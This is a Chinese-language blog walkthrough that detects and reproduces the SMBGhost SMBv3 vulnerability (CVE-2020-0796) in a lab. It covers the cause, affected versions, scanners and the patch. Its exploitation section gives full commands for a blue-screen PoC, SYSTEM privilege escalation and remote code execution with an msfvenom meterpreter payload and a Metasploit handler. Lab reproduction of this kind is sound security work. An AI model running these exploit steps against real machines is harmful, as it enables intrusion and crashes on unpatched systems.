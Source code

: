title: CVE-2020-0796 SMBv3 RCE漏洞检测+复现
categories:
  - 漏洞复现
tags:
  - 漏洞
  - CVE-2020-0796
  - RCE
  - SMB
  - POC
  - 漏洞检测
date: 2020-06-09 20:11:00
---
## 漏洞简介
>2020年3月10日，微软在其官方SRC发布了CVE-2020-0796的安全公告（ADV200005，MicrosoftGuidance for Disabling SMBv3 Compression）,公告表示在Windows SMBv3版本的客户端和服务端存在远程代码执行漏洞。同时指出该漏洞存在于MicroSoft Server Message Block 3.1.1协议处理特定请求包的功能中，恶意伪造的压缩数据包 时出现的错误引发的，从而造成SMB服务器的缓冲区溢出,攻击者利用该漏洞可在目标SMB Server或者Client中执行任意代码。

### 概述 

>SMB 3.1.1协议中处理压缩消息时，对其中数据没有经过安全检查，直接使用会引发内存破坏漏洞，可能被攻击者利用远程执行任意代码。攻击者利用该漏洞无须权限即可实现远程代码执行，受黑客攻击的目标系统只需开机在线即可能被入侵。

<!--more-->

### 原理 

>漏洞存在于在srv2.sys驱动中，由于SMB没有正确处理压缩的数据包，在解压数据包的时候调用函数Srv2DecompressData处理压缩数据时候，对压缩数据头部压缩数据大小OriginalCompressedSegmentSize和其偏移Offset的没有检查其是否合法，导致其相加可分配较小的内存，后面调用SmbCompressionDecompress进行数据处理时候使用这片较小的内存可导致拷贝溢出或越界访问，而在执行本地程序的时候，可通过获取当前本地程序的token+0x40的偏移地址，通过发送压缩数据给SMB服务器，之后此偏移地址在解压缩数据时候拷贝的内核内存中，通过精心构造的内存布局在内核中修改token将权限提升。

### 影响范围

漏洞不影响 win7，漏洞影响 Windows 10 1903 之后的各个 32 位、64 位版 Windows，包括家用版、专业版、企业版、教育版。

> Windows 10 Version 1903 for 32-bit
> Windows 10 Version 1903 for x64
> Windows 10 Version 1903 for arm64
> Windows 10 Version 1909 for 32-bit
> Windows 10 Version 1909 for x64
> Windows 10 Version 1909 for arm64
> Windows Server 10 Version 1903 for server core installation
> Windows Server 10 Version 1909 for server core installation

## 环境准备

### 环境搭建

攻击机：Kali Linux
:    IP：192.168.219.135
可以 ping 通 win10 虚拟机

靶 机：Windows 10 虚拟机 1909 x64 (专业版）
:    IP：192.168.219.142
关闭防火墙和 defender
1903 或者 1909 版本均可，我这里用的是1909版本

宿主机：Windows 7


### 环境要求
首先确认系统版本符合要求
![](1.png)
使用systeminfo确定下主机有没有打过这个补丁KB4551762
![](2.png)
关闭防火墙和 defender
![](3.png)

## 漏洞检测

### git脚本检测

> https://github.com/ollypwn/SMBGhost

检测返回的数据包中SMB压缩版本，这种检测方式打过补丁依然会误报。
![](4.png)
*PS:脚本适用python3，宿主机电脑中只有python2，稍微修改一下print即可*


### 奇信安检测工具

>http://dl.qianxin.com/skylar6/CVE-2020-0796-Scanner.zip

适用于局域网批量检测，快速查找未打补丁的机器。
![](5.png)

### 腾讯电脑管家SMB漏洞修复工具

>http://dlied6.qq.com/invc/QQPatch/QuickFix_SMB0796.exe

适用于个人用户检测，一键快速检测和修复。
![](6.png)

## 漏洞利用

### 蓝屏演示
蓝屏攻击POC:
>https://github.com/eerykitty/CVE-2020-0796-PoC

```
git clone https://github.com/eerykitty/CVE-2020-0796-PoC.git
python3 setup.py install
python3 CVE-2020-0796.py 192.168.219.142
```

安装脚本和依赖库
![](7.png)
依赖库安装成功后执行蓝屏攻击脚本
![](8.png)
攻击成功结果如下
![](9.png)

### 提权演示
本地提权POC:
>https://github.com/danigargu/CVE-2020-0796

文件编译结果执行文件有两个，一个动态的，一个静态的，动态的需要另外安装相关dll文件，我们直接执行静态提权程序，成功弹出更高的system权限命令执行窗口

![](10.png)

### RCE演示
远程利用POC:
>https://github.com/chompie1337/SMBGhost_RCE_PoC

-  Kali下载POC

```
root@kali:~/cve# git clone https://github.com/chompie1337/SMBGhost_RCE_PoC
root@kali:~/cve# cd SMBGhost_RCE_PoC
root@kali:~/cve/SMBGhost_RCE_PoC# ls
```

![](11.png)
*PS：该POC需要用python3环境执行*
-  使用msfvenom生成payload，生成TXT文件便于后面修改

```
root@kali:~/cve/SMBGhost_RCE_PoC# msfvenom -p windows/x64/meterpreter/bind_tcp lport=1234 -f py -o 1.txt
```
![](12.png)
-  将1.txt 生成的code中参数buf改为USER_PAYLOAD，然后替换到exploit.py中的USER_PAYLOAD参数。（顺序不要颠倒，否则执行会失败的，因为你在py全文替换buf的话，不小心会把代码中的全部的buf替换的）

![](13.png)
这里不要忘记字符串前面的二进制格式换`b""`不然脚本执行错误
![](14.png)
-  新建一个终端，启动msf监听本地端口

```
root@kali:~# msfconsole

msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/x64/meterpreter/bind_tcp
payload => windows/x64/meterpreter/bind_tcp
msf5 exploit(multi/handler) > set lport 1234
lport => 1234
msf5 exploit(multi/handler) > set rhost 192.168.219.142
rhost => 192.168.219.142
msf5 exploit(multi/handler) > exploit
```
![](15.png)
-  运行exploit.py

```python3 exploit.py -ip 192.168.219.142```
![](16.png)

一开始没反应，试了好几次，最后成功反弹shell（大家尝试的时候多试几次，看网上其他大佬说很容易蓝屏，蓝屏没有遇到，只是前几次每次执行后没反应，然后发现win10卡死了，ping不通，重启靶机即可）
![](17.png)

## 参考

[CVE-2020-0796 检测及利用工具](https://www.cnblogs.com/xiaozi/p/13062533.html)